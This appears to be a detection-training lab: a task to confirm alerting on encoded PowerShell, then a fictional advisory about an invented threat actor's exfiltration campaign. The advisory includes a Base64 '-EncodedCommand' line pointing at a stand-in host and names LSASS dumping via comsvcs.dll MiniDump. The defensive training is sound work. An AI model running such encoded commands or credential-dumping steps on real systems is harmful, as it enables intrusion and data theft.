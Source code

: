 Your organization recently received a Security Advisory. After reviewing, your manager assigned you to verify that an alert would be generated if encoded commands are run using PowerShell on a Linux system.

| &#8505; NOTE |
| --- |
| The Security Advisory listed below is a work of fiction. It follows a format consistent with published Security Advisories and incorporated TTPs that have been observed by real world threat actors. The content including names, dates, targeted sectors, geographic focus, and example commands is used in a fictitious manner. They have been fabricated for use in this lab environment. |

-----

### Security Advisory: TA-20XX-XXX - Base64-Encoded PowerShell Exfiltration Campaign

- **Advisory ID**: TA-20XX-XXX
- **Advisory Type**: Threat Actor Activity - Ongoing
- **Threat Actor**: "WOLFRAM URSA"
- **Targeted Sectors**: Government, Defense, Legal, Research
- **Geographic Focus**: North America, Western Europe, Australia
- **Date Issued**: July 9, 20XX
- **Severity**: HIGH

#### Executive Summary

WOLFRAM URSA, a threat group with suspected ties to a nation-state intelligence service, has been observed conducting a stealthy data exfiltration campaign across multiple high-value targets. The actor leverages **Living off the Land Binaries (LOLBins)**, primarily **PowerShell**, to execute **Base64 encoded commands** that evade traditional detection. Data is collected, encoded, and exfiltrated using covert channels including HTTP POSTs to compromised infrastructure and DNS tunneling.

The campaign has been active since **May 20XX**, with observed TTPs indicating operational maturity, modular payloads, and deep knowledge of Windows internal tooling.

#### Observed Tactics, Techniques, and Procedures (TTPs)

##### Initial Access
- **T1566.001 - Spearphishing Attachment**: Malicious Excel documents containing macro payloads.

##### Execution
- **T1059.001 - PowerShell**: Execution of Base64-encoded PowerShell from memory.
  ```powershell
  powershell.exe -EncodedCommand JABjAD0AIgBoAHQAdABwADoALwAvAGMAbwBtAHAAbABvAGMAYQB0AGUAZABoAG8AcwB0AC4AYwBvAG0ALwBleABmACIAOwAkAHIA
  ```

##### Defense Evasion
- **T1027.001 - Binary Encoding (Base64)**: Scripts encoded to avoid static detection.
- **T1055.012 - PowerShell Assembly Injection**: In-memory .NET payloads via System.Reflection.
- **T1218.005 - Mshta**: Used for execution of script-based stagers.

##### Credential Access
- **T1003.001 - LSASS Memory Dumping**: Via rundll32.exe comsvcs.dll, MiniDump.

##### Collection
- **T1114 - Email Collection**: Accessed Outlook .pst and .ost files via PowerShell.
- **T1005 - Data from Local System**: Sensitive files staged in `%APPDATA%\Temp\projcache\`.
